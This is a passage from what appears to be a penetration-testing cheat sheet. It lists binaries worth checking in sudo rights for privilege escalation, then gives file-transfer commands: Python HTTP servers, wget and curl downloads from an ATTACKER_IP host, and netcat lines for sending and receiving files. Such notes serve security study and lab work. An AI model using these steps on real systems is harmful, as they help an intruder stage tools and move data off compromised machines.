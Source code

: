 ### Sudo Commands to Look For
```
vi/vim
less
more
man
awk
perl
python
ruby
nmap
tcpdump
bash
sh
find
```

## File Transfer Methods

```bash
# Python HTTP server
python -m SimpleHTTPServer 8000   # Python 2
python3 -m http.server 8000       # Python 3

# Download with wget
wget http://ATTACKER_IP:8000/filename

# Download with curl
curl http://ATTACKER_IP:8000/filename -o filename

# Netcat file transfer (receiver)
nc -lvp 1234 > filename

# Netcat file transfer (sender)
cat filename | nc RECEIVER_IP 1234
``` 
